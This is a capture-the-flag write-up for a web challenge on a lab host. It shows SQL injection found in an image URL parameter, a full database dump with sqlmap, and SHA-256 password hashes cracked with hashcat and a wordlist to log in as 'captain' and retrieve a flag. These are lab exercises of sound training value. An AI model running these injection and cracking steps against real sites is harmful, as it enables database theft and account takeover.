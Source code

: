 Troubles on the bridge: Navigation plan
====================================

## Task
Ahoy, officer,

the chief officer was invited to a naval espresso by the captain and now they are both unfit for duty. The second officer is very busy and he has asked you to find out where are we heading according to the navigation plan.

May you have fair winds and following seas!

The navigation plan webpage is available at http://navigation-plan.cns-jv.tcc.

## Solution
After web protocols my second least favourite challenge as task lead me somewhere when I spent hours of time... and I was completely wrong :-) But, let's see. I've opened link in browser, there is pretty nice web application, with login form, list of targets with picture and some information usually hidden because only logged in users can see it. What to do? First came to my mind SQL injection - there is a login form. But login form probably has correct input sanitization. So something other interesting? Let's look on picture:

	<img src="/image.png?type=data&amp;t=targets&amp;id=4" alt="Map for # Target 4">

Ok, that URL seems interesting, so try SQL injection on it. If someone is so lazy like me, use a tool :-)

	└─$ sqlmap "http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=4"        
	        ___                                                                                                                                                                                              

	[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

	[*] starting @ 10:42:00 /2023-10-18/
	[10:42:00] [INFO] testing connection to the target URL
	you have not declared cookie(s), while server wants to set its own ('PHPSESSID=27c15301ce3...e37e32f9d4'). Do you want to use those [Y/n] 
	[10:42:02] [INFO] checking if the target is protected by some kind of WAF/IPS
	[10:42:03] [INFO] testing if the target URL content is stable
	[10:42:04] [INFO] target URL content is stable
	[10:42:04] [INFO] testing if GET parameter 'type' is dynamic
	[10:42:04] [INFO] GET parameter 'type' appears to be dynamic
	[10:42:04] [INFO] heuristic (basic) test shows that GET parameter 'type' might be injectable (possible DBMS: 'MySQL')
	[10:42:04] [INFO] testing for SQL injection on GET parameter 'type'

Bingo. After little play, if I change type=data to something else, tool will be running much faster (because probably in data is large PNG image...). So we can run this:

	sqlmap "http://navigation-plan.cns-jv.tcc/image.png?type=x&t=users&id=1" --dump-all

and this gives us whole db. sqlmap even ask if it can crack password as he thinks he found some, if we respond yes, table look like this:

	+----+--------+----------+------------------------------------------------------------------------------+----------+
	| id | rank   | active   | password                                                                     | username |
	+----+--------+----------+------------------------------------------------------------------------------+----------+
	| 1  | 1      |          | 15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225 (123456789) | engeneer |
	| 2  | 0      |          | 7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537             | captain  |
	| 3  | 1      |          | 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb             | officer  |
	+----+--------+----------+------------------------------------------------------------------------------+----------+

How to stay here for hours: This is the place when I should stop because I have everything I needed. But no. Login with engeneer account won't work because account is disabled. As application obviously shows information from database, I started looking in it. Dumping all tables, looking inside. I found PNG images in base64 so look there if in base64 in database isn't something more. Isn't...

After several hours of investigating database I've returned to users table. Let's use some other tool for password cracking. So, sqlmap knows that passwords are sha256 hashes, let's try hashcat:

	└─$ echo "7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537" >> nav_hashes
	└─$ echo "6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb" >> nav_hashes 
	└─$ hashcat -m 1400 nav_hashes /usr/share/wordlists/rockyou.txt 
	...
	7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537:$captainamerica$

And here we go... Password for user captain is $captainamerica$
Let's login to website with it. And in details of target #4 is flag:

	FLAG{fmIT-QkuR-FFUv-Zx44}

Obviously flag is in application itself, not in database... so, using better dictionary on start can save a lot of time :-)
